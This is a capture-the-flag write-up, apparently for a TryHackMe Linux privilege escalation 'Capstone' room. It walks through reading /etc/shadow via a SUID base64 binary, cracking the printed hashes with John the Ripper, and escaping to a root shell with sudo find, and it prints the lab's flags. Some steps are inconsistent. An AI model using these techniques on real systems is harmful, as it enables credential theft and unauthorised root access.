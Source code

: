 # Capstone Challenge

**Credits:**

**Rejaul Islam**  
_Security enthusiast_

............................................

After completing the Linux privilege escalation module, you get a challenge named “Capstone.” In this challenge, we have an IP address, username:password, and a hint to log in with SSH. Then, you try to get root access and read the flag.

So let’s get started with Rejaul.

Credentials:
Username: leonard
Password: Penny123
[<ip> from THM]

Step 1: Let's log in first with those credentials using SSH.

```
ssh leonard@10.201.25.99
# password: Penny123
```

Now you should find a shell in your terminal.

```
[leonard@ip-<THM_ip> ~]$
```

Then I try to see the file and folder with “ls,” but unfortunately, this “perl5” folder is empty, or maybe we don’t have access to see inside this folder.

Then I try to see sudo persimmon for Leonard users with -

```
sudo -l
```

Res:

We trust you have received the usual lecture from the local system.
Administrator. It usually boils down to these three things:

#1) Respect the privacy of others.
#2) Think before you type.
#3) With great power comes great responsibility.

Oops! Sudo permission denied.

Then I decided to check the permissions for this user, and I ran this command to check:

```
find / -perm -4000 2>/dev/null
```

Result (sample from the box):

```
/usr/bin/passwd
```

I found lots of permissions, but in the previous task we read the flag with base64, right? Let’s try this:

Then I went to the /home directory and found three folders. One is for the current user, leonard, and the other two folders are interesting. They give us some hints for finding the flag, right? We know that we need to find two flags: “flag1.txt” and “flag2.txt.” With those folders, we can think that flag2.txt is in the root folder; this is standard and normally happens.

Then I try to see the content under missy and rootflag, but I don’t have permission.

Let's try to find the flag with base64.

```
/usr/bin/base64 /home/missy/flag1.txt | /usr/bin/base64 -d
```

Result:

```
/usr/bin/base64: /home/missy/flag1.txt: No such file or directory
```

Try rootflag:

```
/usr/bin/base64 /home/rootflag/flag2.txt | /usr/bin/base64 -d
```

Result:

```
THM-168824782390238
```

WAHH! It's a miracle that, without getting root access, we can read flag2.txt, but we still can’t read flag1.txt, right?

Let’s try to see the /etc/shadow file to find Missy’s user password.

```
cat /etc/shadow
```

Result:

```
Permission denied
```

Let’s try using base64 to read this file –

```
/usr/bin/base64 /etc/shadow | /usr/bin/base64 -d
```

Result:

```
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

We found that one password is the root user’s and one is Missy’s. Let’s crack them with John the Ripper.
Save this to your local machine as “pass.txt” and then run these tools:

```
john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After some time, you should find Missy's user password.

```
Password1        (missy)
```

Now change the user Leonard to Missy.

```
su Missy
# password: Password1
```

Now try to visit the /home/missy folder, then try to find the flag.

```
find / -type f -name flag1.txt 2>/dev/null
```

Result:

```
/home/missy/Documents/flag1.txt
```

I found the flag1.txt path; now try to read it.

```
cat /home/missy/Documents/flag1.txt
```

Result:

```
THM-42828719920544
```

Yeah, I also found flag1. But I still can't get access to the rootflag folder. I need to get root access to visit this folder. I got 2 flags, this is not the right way to get the root flag. So i decided to get the root access now -

Now i try to see the sudo permission for missy user -

```
sudo -l
```

Unfortunately I found a valuable response -

```
(ALL) NOPASSWD: /usr/bin/find
```

Then I am not trying to see others way like (path, SUID, capabilities)

With find i search into gtfobins.github.io to find the exploit -

```
sudo find . -exec /bin/sh \; -quit
```

Then:

```
cd rootflag
cat flag2.txt
```

Result:

```
THM-168824782390238
```

Again we got the flag and finally we completed the normal user to root user accessing process.

--- THE END ---
